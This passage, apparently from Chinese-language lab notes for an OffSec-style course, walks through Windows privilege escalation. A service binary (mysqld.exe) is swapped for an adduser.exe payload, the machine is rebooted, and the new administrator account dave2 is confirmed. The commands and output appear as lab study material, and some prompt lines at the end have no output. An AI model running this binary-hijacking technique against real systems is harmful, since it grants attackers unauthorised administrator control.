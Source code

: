 ```
PS C:\Users\dave>
```
> `mysqld.exe` 備份到當前目錄，再將 `adduser.exe` 匯入

重啟服務
```
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```
> dave 沒有權限重啟

>[!Tip]
>If the service Startup Type is set to "Automatic", we may be able to restart the service by rebooting the machine.

可使用 `Get-CimInstance` 查看 Name and StartMode
```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```
確認 dave 系統權限:
```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
...
```
> Shut down the system: Disabled
>> 未使用 SeShutdownPrivilege 權限

嘗試使用 shutdown
```
shutdown /r /t 0
```

#### 5. 重啟服務後，執行 interactive shell
確認 adduser.exe 是否成功覆蓋 mysqld.exe
```
PS C:\Users\dave> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
> dave2 成功新增


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir